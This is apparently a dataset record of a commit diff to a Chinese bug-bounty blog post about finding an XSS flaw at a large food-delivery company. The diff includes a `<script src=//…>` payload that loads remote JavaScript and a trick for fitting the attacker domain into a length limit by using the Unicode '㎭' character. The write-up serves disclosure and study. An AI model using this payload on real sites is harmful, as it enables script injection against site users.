

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md, in a window 1280 px wide and 1400 px high, scrolled down 1064 px. Shown: the part 179-1039 px from the top of the window, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md

````diff
--- a/_posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md
+++ b/_posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md
@@ -46,7 +46,7 @@ payload：
 ```js
   "<script src=//[填写域名]
 ```
-该payload生成出来的网页简直是一坨稀饭，不过经过验证可以执行域名包含的js代码(不过该处填写的域名解析出的网站必须是跟随主站协议，比如像主站用https该网站就得用https)
+该payload生成出来的网页简直是一坨稀饭，不过经过验证可以执行域名包含的js代码(不过该处填写的域名解析出的网站必须是跟随主站协议，比如像主站用https验证站就得用https)
 
 该payload除开域名部分总长度为15，我们填写的域名+路径不能超过5字符
 当时就想到了短域名等方案，但都太长了
@@ -100,7 +100,7 @@ payload：
 
 注册一个域名radq.cc，无论是使用㎭q.cc还是radq.cc，都能顺利C类解析到同一源ip
 
-这样就好办了，不用花大价钱注册5长度域名，只需注册一个包含特殊字符的7长度的小域名就可以了
+这样就好办了，不用花大价钱注册5长度域名，只需花小价钱注册一个包含特殊字符的5长度域名就可以了
 
 # [](#header-1)3、中期payload注入阶段
 注册了radq.cc，在该域名下挂js脚本，顺利注入
````
